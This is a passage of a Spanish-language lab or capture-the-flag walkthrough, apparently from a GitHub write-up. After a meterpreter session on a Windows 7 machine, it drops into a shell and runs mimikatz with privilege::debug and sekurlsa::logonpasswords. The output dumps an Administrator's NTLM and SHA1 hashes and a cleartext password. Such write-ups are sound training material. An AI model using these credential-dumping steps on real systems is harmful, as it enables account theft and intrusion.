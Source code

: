```bash
040555/r-xr-xr-x  4096     dir   2017-07-21 01:56:23 -0500  Users
040777/rwxrwxrwx  16384    dir   2024-03-11 21:21:40 -0600  Windows
100777/rwxrwxrwx  1355264  fil   2024-03-11 22:45:55 -0600  mimikatz.exe
000000/---------  0        fif   1969-12-31 18:00:00 -0600  pagefile.sys
```

Y nos metemos con una shell a la máquina:
```bash
meterpreter > shell
Process 1384 created.
Channel 3 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\>
```

Ahora, ejecutamos el programa **mimikatz.exe**:
```batch
C:\>.\mimikatz.exe
.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

Revisamos que tengamos los privilegios necesarios para dumpear los hashes:
```batch
mimikatz # privilege::debug
Privilege '20' OK
```

Y obtenemos las credenciales:
```batch
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 542841 (00000000:00084879)
Session           : Interactive from 0
User Name         : Administrator
Domain            : haris-PC
Logon Server      : HARIS-PC
Logon Time        : 12/03/2024 03:21:36
SID               : S-1-5-21-319597671-3711062392-2889596693-500
        msv :
         [00010000] CredentialKeys
         * NTLM     : cdf51b162460b7d5bc898f493751a0cc
         * SHA1     : dff1521f5f2d7436a632d26f079021e9541aba66
         [00000003] Primary
         * Username : Administrator
         * Domain   : haris-PC
         * NTLM     : cdf51b162460b7d5bc898f493751a0cc
         * SHA1     : dff1521f5f2d7436a632d26f079021e9541aba66
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : haris-PC
         * Password : ejfnIWWDojfWEKM
        kerberos :
         * Username : Administrator
         * Domain   : haris-PC
```